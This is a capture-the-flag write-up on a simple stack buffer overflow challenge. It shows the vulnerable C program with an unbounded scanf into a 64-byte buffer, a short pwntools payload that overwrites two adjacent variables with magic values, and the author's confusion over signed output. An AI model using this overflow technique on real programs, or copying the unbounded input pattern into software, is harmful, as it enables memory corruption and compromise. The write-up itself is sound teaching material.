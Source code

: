 This is really just a simple overflow into other variables task, but with a little trick that makes it mean. The code:

```c
#include <stdlib.h>
#include <stdio.h>

void main() {
    setbuf(stdout, NULL);
    unsigned int num1;
    unsigned int num2;
    char str3[64];

    puts("Welcome, please set some variables.");
    puts("first number: ");
    scanf("%d", &num1);
    puts("another number: ");
    scanf("%d", &num2);

    if (num1 > 1000 || num2 > 1000) {
        puts("I can't handle numbers larger than 1000!");
        exit(0);
    }

    puts("and then a string: ");
    scanf("%s", &str3);

    if (num1 == 0xcafebabe && num2 == 0xdeadbeef) {
        puts("Congratulations! Here is your flag: ");
        system("cat flag.txt");
    } else {
        printf("num1: %d, num2: %d, string: %s\n", num1, num2, str3);
        puts("Thank you for your service");
    }
    
    exit(0);
}
```

The important thing here (or at least - was for me) is that you scanf using the "%d" format character, and especially that you printf it using the "%d" format character. This leads to weird behavior. So basically you have to overflow the str3 variable into num1 and num2. I found this offset at 72 by trial and error, putting a 1 in num1 and num2 to see when it would return as a 0 in the last printf statement. This is the code:

```python
padding = 72 # value where num=0 -> 72


p.sendlineafter(b': ', b"1")
p.sendlineafter(b': ', b"1")

payload = b"".join([
    b"A" * padding,
    p32(0xdeadbeef),
    p64(0xcafebabe)
    ])
```
Now this actually already solves the challenge. Unless you, like me, just sort of don't properly read the output and overlook the fact that this solves the challenge, and instead focus on the fact that just sending `0xdeadbeef` gives the output:

```bash
num1: 0, num2: -559038737, string: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ\xde
```
Which is really weird, right? Because it's declared as an unsigned int, and unsigned ints can't be negative. Now this might send you into a completely irrelevant rabbit hole. It sure did for me. I basically spent 3 hours in increasing frustration, trying out everything from random numbers to half-baked mathematical formulas to get num2 to align to the decimal value of `0xdeadbeef`. Ultimately I gave up and went to bed.

Now The think here is that num1 and num2 are read and printed using the format char "%d", which is for integer pointers. Now I don't actually know how this works on the bit-level, but when you print an unsigned int as an int it prints a non unsigned int - crazy I know. But the value is still `0xdeadbeef` "under the hood" so to speak. So after a refreshing nights sleep I just sort of realized this and realized I solved the challenge hours before giving up last night. 